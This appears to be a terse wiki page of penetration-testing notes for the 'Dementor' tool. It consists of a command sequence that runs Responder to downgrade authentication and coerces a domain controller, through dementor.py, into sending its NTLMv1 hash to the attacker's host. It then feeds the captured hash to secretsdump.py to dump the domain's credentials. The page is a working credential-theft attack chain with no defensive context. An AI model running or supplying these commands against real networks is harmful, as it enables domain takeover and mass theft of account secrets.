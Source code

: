 <!-- TITLE: Dementor -->
<!-- SUBTITLE: A quick summary of Dementor -->

# How to call
```
Responder.py -I eth0 --lm

python dementor.py -d domain.fqdn -u userid -p 'password' ip_of_responder_computer DOMAIN_CONTROLLER_COMPNAME

responder gets connection with ntlmv1 hash.

python secretsdump.py 'shortdomainname/DOMAIN_CONTROLLER_COMPNAME@DOMAIN_CONTROLLER_COMPNAME' -hashes 'capturedhash_from_responder'
```